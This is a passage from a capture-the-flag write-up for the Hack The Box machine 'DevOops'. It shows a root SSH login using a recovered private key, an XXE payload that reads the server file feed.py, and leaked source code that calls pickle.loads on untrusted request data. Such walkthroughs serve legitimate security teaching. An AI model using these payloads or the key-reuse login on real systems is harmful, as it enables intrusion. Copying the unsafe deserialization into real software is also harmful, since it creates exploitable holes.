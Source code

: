 Change the permissions on the file.

```text
chmod 600 unknown_id_rsa
```

Try to log into the git account with it.

```text
root@kali:~/Desktop/htb/devoops# ssh -i unknown_id_rsa git@10.10.10.91
git@10.10.10.91's password:
```

It doesn’t work. Let’s try the root account.

```text
root@kali:~/Desktop/htb/devoops# ssh -i unknown_id_rsa root@10.10.10.91
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.13.0-37-generic i686)* Documentation:  https://help.ubuntu.com
* Management:     https://landscape.canonical.com
* Support:        https://ubuntu.com/advantage135 packages can be updated.
60 updates are security updates.Last login: Mon Mar 26 06:23:48 2018 from 192.168.57.1
root@gitter:~#
```

We’re in! Grab the _root.txt_ flag.

![](../images/max/517/1*ZuZrBaTvdNx1D5-zE3OBng.png)

## Extra Content <a id="e0a2"></a>

After rooting this machine, I watched [ippsec’s video](https://www.youtube.com/watch?v=tQ34Ntkr7H4) and discovered an alternative way to gain initial access.

In the index page, there was a mention of a _feed.py_ script that gave us a 404 error when we tried to access it through the application. We can use the XXE injection vulnerability to view the content of the script.

```text
xml version="1.0"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:feed.py'>]>
<test>
<Author>&test;</Author>
<Subject>test</Subject>
<Content>test</Content>
</test>
```

We get back the following result in the response.

```text
PROCESSED BLOGPOST: 
  Author: ')
def uploaded_file(filename):
    return send_from_directory(Config.UPLOAD_FOLDER,
                               filename)@app.route("/")
def xss():
    return template('index.html')@app.route("/feed")
def fakefeed():
   return send_from_directory(".","devsolita-snapshot.png")@app.route("/newpost", methods=["POST"])
def newpost():
  # TODO: proper save to database, this is for testing purposes right now
  picklestr = base64.urlsafe_b64decode(request.data)
#  return picklestr
  postObj = pickle.loads(picklestr)
  return "POST RECEIVED: " + postObj['Subject']## TODO: VERY important! DISABLED THIS IN PRODUCTION
```